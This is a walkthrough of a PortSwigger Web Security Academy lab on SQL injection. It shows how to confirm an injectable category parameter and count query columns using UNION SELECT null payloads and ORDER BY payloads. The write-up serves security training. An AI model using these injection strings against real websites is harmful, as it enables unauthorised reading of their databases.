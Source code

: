 # Write-up: SQL injection UNION attack, determining the number of columns returned by the query @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection UNION attack, determining the number of columns returned by the query* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  
Python script (manual payload): [script_manual.py](script_manual.py)

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

### Confirm injectable argument

The category-filtering works based on the URL argument `category`. First I need to confirm that this argument is injectable by creating an error.

The normal argument is, for example, `/filter?category=Accessories`. Start by injecting a single quote at the end: `/filter?category=Accessories'`.

--> This result in an Internal Server Error by the application as the SQL query is invalid now and will look like this, having an illegal single quote at the end:

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

Next, I try the good case by injecting something that results in a valid query: `/filter?category=Accessories%27%20or%201=1--`. This results in a query like this, returning all rows and commenting out the erroneous single quote and anything that might come after:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

It returns the full listing, basically the same content as if no filter was used. This is an indication that whatever would come afterward and is commented out does not interfere with the result.

### Count columns by UNION SELECT

In a UNION, the result sets need to contain the same number of columns. Injecting `' UNION (select null)--` will produce a server error.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

I use repeated calls, each time increasing the number of 'nulls'. The correct column count can be found by injecting `' UNION (select null, null, null)--`. Therefore, this query is valid:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

Now I know there are three columns and the lab updates to

![success](img/success.png)

### Count columns by ORDER BY

An alternative way to count the columns is with `ORDER BY`. Injecting `' ORDER BY 1--` will order the results by the first column of the result. Incrementing the value leads to an internal server error when using `' ORDER BY 4--` as the database is instructed to order by a column that does not exist. Thus the correct number of columns is 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 4--
```
